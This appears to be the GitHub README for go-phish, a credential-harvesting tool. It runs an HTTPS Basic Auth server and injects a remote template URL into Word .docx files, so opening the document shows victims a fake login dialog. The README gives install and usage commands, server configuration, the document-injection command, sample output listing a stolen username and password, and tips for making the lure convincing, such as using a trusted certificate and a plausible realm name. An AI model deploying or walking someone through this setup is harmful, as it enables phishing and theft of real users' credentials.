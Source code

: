 # go-phish

go-phish is a Simple SSL Enabled HTTP server with the primary purpose of phishing credentials via Basic Authentication. 

The power of go-phish is best demonstrated by setting a Word document's template to a go-phish URL. This causes 
Microsoft Word to make a request to the URL, resulting in an Authentication Dialog being shown to the end-user. The
ability to inject any .docx file with a URL is possible using the go-phish's 
`-i [in docx]`, `-o [out docx]`, and `-u [url]` options.

### Download
Operating specific packages can be [downloaded from here](https://github.com/ryhanson/go-phish/releases).

### Install
Extract the archive, and optionally, install binary to $PATH

```bash
$ tar -xzvf go-phish*.tar.gz
$ cd go-phish*
$ cp go-phish /usr/local/bin
```

### Usage
```text
$ go-phish --help
                              __    _      __
     ____ _____        ____  / /_  (_)____/ /_
    / __ \/ __ \______/ __ \/ __ \/ / ___/ __ \
   / /_/ / /_/ /_____/ /_/ / / / / (__  ) / / /
   \__, /\____/     / .___/_/ /_/_/____/_/ /_/
  /____/           /_/ 	An SSL Enabled Basic Auth Credential Harvester
                        with a Word Document Template URL Injector

  Start the server  : go-phish -s settings.json -c credentials.json
  Inject a template : go-phish -u https://secure.site.local/docs -i good.docx -o bad.docx

  Options:
    -h, --help      Show usage and exit.
    -v              Show version and exit.
    -s              The JSON settings file used to setup the server. [default: "settings.json"]
    -c              The JSON file to store harvested credentials. [default: "credentials.json"]
    -u              The go-phish URL to use as the Word document template.
    -i              The Word .docx file to inject with a template URL.
    -o              The new Word .docx file with the injected template URL.
```

##### Running the server
Modify the provided settings.json file as needed, by default it should look like this:

```json
{
  "ip": "0.0.0.0",
  "port": "443",
  "sslCert": "server.crt",
  "sslKey": "server.key",
  "basicRealm": "Secure Document Gateway",
  "responseStatus": 200,
  "responseFile": "template.dotx",
  "responseHeaders": [
    ["Content-Type", "application/vnd.openxmlformats-officedocument.wordprocessingml.template"]
  ]
}
```

This setup will start the HTTP server on Port *443* with SSL configured to use *server.crt* and *server.key*. 
The basic authentication realm is set to *Secure Document Gateway*.
When any credentials are provided, a *200* response status is sent along with the contents of the included *template.dotx* and
the content type header: *Content-Type: application/vnd.openxmlformats-officedocument.wordprocessingml.template*.

The settings file may also be configured to output a simple body, by using *responseBody*, like this:

```json
{
  "ip": "0.0.0.0",
  "port": "443",
  "sslCert": "server.crt",
  "sslKey": "server.key",
  "basicRealm": "Secure Document Gateway",
  "responseStatus": 404,
  "responseBody": "<h1>Not Found</h1>",
  "responseHeaders": [
    ["Content-Type", "text/html"]
  ]
}
```

The effectiveness of this tool is based mostly on the Domain and Basic Auth Realm used, as that is often all the end user 
will see when triggered from an Office document. Make sure to point your DNS A Records the public IP of the go-phish server.

It's recommended that the provided cert is replaced with a trusted one, such as one generated with 
[LetsEncrypt](https://github.com/certbot/certbot). Microsoft Word on OS X will prevent the auth dialog if the cert is invalid.

Once the server is configured and running, all you need to do is embed a go-phish URL in a document, or anywhere
else your heart desires. go-phish does give you the ability to inject your URL into a Word document as a template, 
instructions on how to do this can be found below.

##### Injecting a Word Document
To inject a Word document with a template URL, you'll need a .docx file and the go-phish server URL.

Now run go-phish with your document and URL:

```text
$ go-phish -url https://secure.site.local/docs -docx good.docx -badocx bad.docx
[+] Opening Word document: good.docx
[+] Setting Word document template to: https://secure.site.local/docs
[+] Saving injected Word document to: bad.docx
[*] Injected Word document has been saved!
```

Make sure your go-phish server is running and available at the URL you used. Now when the Word document
is opened, the victim will be prompted with an authentication dialog.

Now when the victim opens the document, you'll see the following:

```text
$ ./go-phish
[+] Credential store initialized at: credentials.json
[+] Starting HTTPS Auth Server on: 0.0.0.0:443
[*] Request Received at 2016-09-25 01:06:28: HEAD https://secure.site.local/docs
[*] Sending Basic Auth response to: 127.0.0.1
[*] New credentials harvested!
[HTTP] Host        : secure.example.local
[HTTP] Request     : /docs
[HTTP] User Agent  : Microsoft Office Word
[HTTP] IP Address  : 127.0.0.1
[AUTH] Username    : john.doe
[AUTH] Password    : Summer15
```
